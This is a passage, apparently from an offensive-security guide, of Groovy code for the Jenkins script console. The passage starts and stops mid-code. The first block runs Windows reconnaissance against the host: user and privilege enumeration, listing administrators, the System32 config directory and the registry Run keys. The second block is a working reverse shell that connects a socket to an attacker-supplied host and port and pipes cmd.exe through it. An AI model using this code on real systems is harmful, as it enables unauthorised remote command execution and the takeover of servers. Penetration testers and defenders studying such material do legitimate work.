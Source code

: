```groovy
    def commands = [
        "whoami",
        "whoami /all",
        "systeminfo",
        "net user",
        "net localgroup administrators",
        "tasklist | findstr jenkins",
        "netstat -an | findstr LISTENING",
        "wmic os get Caption,Version,BuildNumber",
        "dir C:\\Program Files\\Jenkins",
        "dir C:\\Windows\\System32\\config",
        "reg query HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
    ]
    
    commands.each { cmd ->
        println "\n[+] Executing: $cmd"
        windowsCommand(cmd)
    }
}

// Execute Windows reconnaissance
windowsRecon()
```

#### Windows Reverse Shell
```groovy
// Java-based reverse shell for Windows
def javaReverseShell(String host, int port) {
    try {
        println "[+] Establishing Java reverse shell to $host:$port"
        
        def socket = new Socket(host, port)
        def process = new ProcessBuilder("cmd.exe").redirectErrorStream(true).start()
        
        def inputStream = process.inputStream
        def errorStream = process.errorStream
        def outputStream = process.outputStream
        def socketInputStream = socket.inputStream
        def socketOutputStream = socket.outputStream
        
        // Create threads for I/O handling
        def inputThread = Thread.start {
            try {
                byte[] buffer = new byte[1024]
                int bytesRead
                while ((bytesRead = inputStream.read(buffer)) != -1) {
                    socketOutputStream.write(buffer, 0, bytesRead)
                    socketOutputStream.flush()
                }
            } catch (Exception e) {
                println "Input thread error: ${e.getMessage()}"
            }
        }
        
        def outputThread = Thread.start {
            try {
                byte[] buffer = new byte[1024]
                int bytesRead
                while ((bytesRead = socketInputStream.read(buffer)) != -1) {
                    outputStream.write(buffer, 0, bytesRead)
                    outputStream.flush()
                }
            } catch (Exception e) {
```